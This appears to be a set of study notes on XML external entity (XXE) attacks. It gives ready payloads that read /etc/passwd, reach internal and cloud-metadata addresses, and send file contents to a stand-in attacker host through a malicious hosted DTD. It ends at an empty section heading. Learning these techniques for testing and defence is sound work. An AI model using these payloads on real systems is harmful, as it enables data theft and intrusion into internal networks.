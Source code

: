 ## to retrieve files

- suppose a shopping application checks for the stock level of a product:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
-> no defense -> retrieve the `/etc/passwd`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## to perform SSRF attacks

- `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>` ex:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

# Blind XXE

## via out-of-band 

- *OOB(reqular entity)* -> `<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
- *OOB(parameter entity)* -> `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

example (**exfiltrate data out-of-band**): 
- malicious DTD:
```DTD
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
  -  attacker hosts the DTD at the following URL -> `http://web-attacker.com/malicious.dtd`
  - then attacker submits the following XXE payload:
```DTD
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
## via error messages